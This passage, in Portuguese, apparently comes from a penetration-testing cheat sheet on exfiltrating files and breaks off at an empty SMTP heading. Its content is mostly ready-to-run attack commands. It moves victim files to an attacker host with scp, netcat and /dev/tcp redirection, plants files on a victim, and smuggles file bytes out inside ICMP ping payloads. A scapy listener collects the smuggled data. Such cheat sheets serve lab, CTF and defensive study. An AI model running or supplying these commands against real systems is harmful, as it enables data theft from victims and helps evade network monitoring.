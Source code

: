 O atacante tem que ter o SSHd rodando.

```bash
scp <nome_do_usuario>@<ip_do_atacante>:<diretório>/<nome_do_arquivo> 
```

## NC

```bash
nc -lvnp 4444 > novo_arquivo
nc -vn <IP> 4444 < arquivo_de_exfiltração
```

## /dev/tcp

### Download de arquivo da vítima

```bash
nc -lvnp 80 > arquivo # máquina atacante
cat /caminho/para/o/arquivo > /dev/tcp/10.10.10.10/80 # máquina vítima
```

### Upload de arquivo para a vítima

```bash
nc -w5 -lvnp 80 < arquivo_para_enviar.txt # máquina atacante
# máquina vítima
exec 6< /dev/tcp/10.10.10.10/4444
cat <&6 > arquivo.txt
```

obrigado ao **@BinaryShadow\_**

## **ICMP**

```bash
# Para exfiltrar o conteúdo de um arquivo via pings você pode fazer:
xxd -p -c 4 /caminho/para/o/arquivo | while read line; do ping -c 1 -p $line <IP atacante>; done
# Isso irá extrair 4 bytes por cada pacote de ping (você provavelmente pode aumentar até 16)
```

```python
from scapy.all import *
# Este é o receptor do ippsec criado na máquina Mischief do HTB
def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 0:
            data = pkt[ICMP].load[-4:] # Lê os 4 bytes interessantes
            print(f"{data.decode('utf-8')}", flush=True, end="")

sniff(iface="tun0", prn=process_packet)
```

## **SMTP**
